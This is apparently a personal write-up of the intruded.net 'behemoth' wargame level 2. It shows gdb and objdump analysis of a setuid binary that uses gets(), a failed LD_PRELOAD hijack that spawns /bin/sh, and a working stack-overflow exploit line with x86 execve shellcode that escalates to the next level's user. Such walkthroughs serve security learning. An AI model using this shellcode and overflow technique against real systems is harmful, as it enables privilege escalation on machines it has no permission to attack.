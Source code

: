 Title: intruded.net, behemoth: level 2
Date: 2011/09/27 21:21
Author: Ken Ko
Tags: shellcode, intruded.net, x86, gdb, stack, behemoth

Trial and error: 

<code class="bash">
level2@behemoth:/tmp$ /wargame/level2
Password: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Authentication failure.
Sorry.
Illegal instruction
level2@behemoth:/tmp$ echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" | wc -c
93
</code>

Tried to have shellcode in an environment variable again... does not work out too well. 

Try again, slowly and with purpose.

<code>
level2@behemoth:/tmp$ objdump -d /wargame/level2 | grep @plt
080482b8 <seteuid@plt-0x10>:
080482c8 <seteuid@plt>:
080482d8 <gets@plt>:
080482e8 <__libc_start_main@plt>:
080482f8 <printf@plt>:
08048308 <__gmon_start__@plt>:
 804833c:       e8 a7 ff ff ff          call   80482e8 <__libc_start_main@plt>
 8048361:       e8 a2 ff ff ff          call   8048308 <__gmon_start__@plt>
 80483f7:       e8 cc fe ff ff          call   80482c8 <seteuid@plt>
 8048403:       e8 f0 fe ff ff          call   80482f8 <printf@plt>
 804840e:       e8 c5 fe ff ff          call   80482d8 <gets@plt>
 804841a:       e8 d9 fe ff ff          call   80482f8 <printf@plt>
level2@behemoth:/tmp$
</code>

After the <strong>seteuid</strong> we see the following functions are called with--allegedly--higher privilege: [1] <strong>printf</strong>, <strong>gets</strong>, <strong>printf</strong>. Interesting is that there's no <strong>strcmp</strong> to test whether the password is correct or invalid. Lame!

Trying another LD_PRELOAD trick:

<code>
level2@behemoth:/tmp$ cat /tmp/gets.c
#include <stdlib.h>

char * gets(char * s) {
        printf("help\n");
        system ("/bin/sh");
        printf("me\n");
}
level2@behemoth:/tmp$ !gcc
gcc -fPIC -shared -o gets gets.c
level2@behemoth:/tmp$ LD_PRELOAD="/tmp/gets" /wargame/level2
Password: lame.
Authentication failure.
Sorry.
level2@behemoth:/tmp$
</code>

Doesn't work :(

What's more annoying, though, is that the LD_PRELOAD works with gdb! Ugh.

<code>
(gdb) r
Starting program: /wargame/level2
Password: help
sh-3.1$ whoami
level2
sh-3.1$
</code>

Anyhow, let's try to go another route. Back to the buffer overflow? 

<code>
unset LD_PRELOAD
</code>

Unset that before going into gdb! 

<code>
Start it from the beginning? (y or n) y
Starting program: /wargame/level2
Password: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBA
Authentication failure.
Sorry.

Program received signal SIGSEGV, Segmentation fault.
0x41424241 in ?? ()
(gdb) i r
eax            0x1f     31
ecx            0x8048553        134514003
edx            0xb7fe1448       -1208085432
ebx            0xb7fdfff4       -1208090636
esp            0xbffffa60       0xbffffa60
ebp            0x41414141       0x41414141
esi            0x0      0
edi            0xb8000cc0       -1207956288
eip            0x41424241       0x41424241
eflags         0x10286  [ PF SF IF RF ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
(gdb)
</code>

Nice. <strong>$eip</strong> is now overwritten. <em>Where do I point this?</em>

<code>
level2@behemoth:/tmp$ (python -c 'print "A" * 92'; cat) | /wargame/level2
Password: Authentication failure.
Sorry.

Illegal instruction
</code>

Something a bit more concise.

Disassemble main for some ideas:

<code>
(gdb) disas main
Dump of assembler code for function main:
0x080483d4 <main+0>:    push   %ebp
0x080483d5 <main+1>:    mov    %esp,%ebp
0x080483d7 <main+3>:    sub    $0x68,%esp
0x080483da <main+6>:    and    $0xfffffff0,%esp
0x080483dd <main+9>:    mov    $0x0,%eax
0x080483e2 <main+14>:   add    $0xf,%eax
0x080483e5 <main+17>:   add    $0xf,%eax
0x080483e8 <main+20>:   shr    $0x4,%eax
0x080483eb <main+23>:   shl    $0x4,%eax
0x080483ee <main+26>:   sub    %eax,%esp
0x080483f0 <main+28>:   movl   $0x3eb,(%esp)
0x080483f7 <main+35>:   call   0x80482c8 <seteuid@plt>
0x080483fc <main+40>:   movl   $0x8048528,(%esp)
0x08048403 <main+47>:   call   0x80482f8 <printf@plt>
0x08048408 <main+52>:   lea    0xffffffa8(%ebp),%eax
0x0804840b <main+55>:   mov    %eax,(%esp)
0x0804840e <main+58>:   call   0x80482d8 <gets@plt>
0x08048413 <main+63>:   movl   $0x8048534,(%esp)
0x0804841a <main+70>:   call   0x80482f8 <printf@plt>
0x0804841f <main+75>:   leave
0x08048420 <main+76>:   ret
0x08048421 <main+77>:   nop
0x08048422 <main+78>:   nop
0x08048423 <main+79>:   nop
0x08048424 <main+80>:   nop
0x08048425 <main+81>:   nop
0x08048426 <main+82>:   nop
0x08048427 <main+83>:   nop
0x08048428 <main+84>:   nop
0x08048429 <main+85>:   nop
0x0804842a <main+86>:   nop
0x0804842b <main+87>:   nop
0x0804842c <main+88>:   nop
0x0804842d <main+89>:   nop
0x0804842e <main+90>:   nop
0x0804842f <main+91>:   nop
</code>

What's important to us:

<code>
0x0804840e <main+58>:   call   0x80482d8 <gets@plt>
. . .
(gdb) b *0x0804840e
Breakpoint 1 at 0x804840e
(gdb) r
Starting program: /wargame/level2

Breakpoint 1, 0x0804840e in main ()
(gdb) i r
eax            0xbffffa00       -1073743360
ecx            0x8048532        134513970
edx            0xb7fe1448       -1208085432
ebx            0xb7fdfff4       -1208090636
esp            0xbffff9e0       0xbffff9e0
ebp            0xbffffa58       0xbffffa58
esi            0x0      0
edi            0xb8000cc0       -1207956288
eip            0x804840e        0x804840e <main+58>
eflags         0x286    [ PF SF IF ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
(gdb)
</code>

Here's an idea: put some shellcode in <strong>$eax</strong> and redirect <strong>$eip</strong> to <strong>\x00\xfa\xff\xbf</strong>. 

<code>
level2@behemoth:/tmp$ (python -c 'print "\x90" * 20 + "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x1e\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\x31\xc0\x31\xdb\xb0\x01\xcd\x80\xe8\xdd\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x23\x41\x41\x41\x41\x42\x42\x42\x42" + "\x90" * 11 + "\x00\xfa\xff\xbf"'; cat) | /wargame/level2
Password: Authentication failure.
Sorry.
whoami
level3
</code>

<em>Nice</em>! I don't know why there's no $ or # indicator for the shell but that's probably a .bashrc problem--or something similar. Inconsequential for my purposes, though.

Onwards!
